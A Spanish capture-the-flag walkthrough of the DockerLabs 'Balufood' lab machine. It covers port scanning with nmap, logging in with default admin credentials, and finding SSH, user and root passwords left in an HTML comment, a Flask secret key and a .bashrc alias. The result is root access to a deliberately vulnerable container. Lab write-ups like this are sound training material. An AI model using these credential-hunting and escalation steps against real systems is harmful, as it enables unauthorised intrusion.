 ```yaml
---
icon: flag
---
```


# Balufood DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip balufood.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh balufood.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 11:51 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000079s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 69:15:7d:34:74:1c:21:8a:cb:2c:a2:8c:42:a4:21:7f (ECDSA)
|_  256 a7:3a:c9:b2:ac:cf:44:77:a7:9c:ab:89:98:c7:88:3f (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
|_http-title: Restaurante Balulero - Inicio
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

Veremos que hay un puerto `5000` abierto, en el que se aloja una pagina web, si entramos dentro veremos una pagina web de un restaurante normal, pero si nos vamos a `Ver carta` -> `Admin` veremos un `login`, por lo que vamos a probar las credenciales por defecto tipicas:

```
User: admin
Pass: admin
```

Veremos que si nos autenticamos, pero no veremos gran cosa por fuera, si probamos a inspeccionar el codigo veremos lo siguiente:

```html
<!-- Backup de acceso: sysadmin:backup123 -->
```

Podemos ver que pueden ser unas credenciales para el puerto `SSH` por lo que vamos a probar ha realizar lo siguiente:

```shell
ssh sysadmin@<IP>
```

Metemos como contraseña `backup123` y veremos que estamos dentro.

## Escalate user balulero

Si listamos la carpeta en la que nos encontramos de la `home` de dicho usuario y leemos el archivo `app.py` para inspeccionar el codigo veremos lo siguiente al principio:

```python
from flask import Flask, render_template, redirect, url_for, request, session, flash
import sqlite3
from functools import wraps

app = Flask(__name__)
app.secret_key = 'cuidaditocuidadin'
DATABASE = 'restaurant.db'
...........................<RESTO DE CODIGO>......................................
```

Veremos que hay una clave secreta la cual puede ser la contraseña de uno de los usuarios del sistema:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:sysadmin,sysadmin,,:/home/sysadmin:/bin/bash
balulero:x:1001:1001:balulero,,,:/home/balulero:/bin/bash
```

Vamos a probar con `balulero` de la siguiente forma:

```shell
su balulero
```

Metemos como contraseña `cuidaditocuidadin` y veremos que estaremos dentro.

## Escalate Privileges

Si leemos de la `home` de dicho usuario el archivo `.bashrc` y veremos lo siguiente:

```shell
cat ~/.bashrc
```

Info:

```
...........................<RESTO DE CODIGO>.....................................

alias ser-root='echo chocolate2 | su - root'
```

Veremos que esta pasando como contraseña `chocolate2` para loguearse con `root` por lo que vamos a probar dicha contraseña a ver si funciona.

```shell
su root
```

Metemos como contraseña `chocolate2`.

```
root@a064182c909b:~# whoami
root
```

Veremos que seremos el usuario `root`, por lo que habremos terminado la maquina.
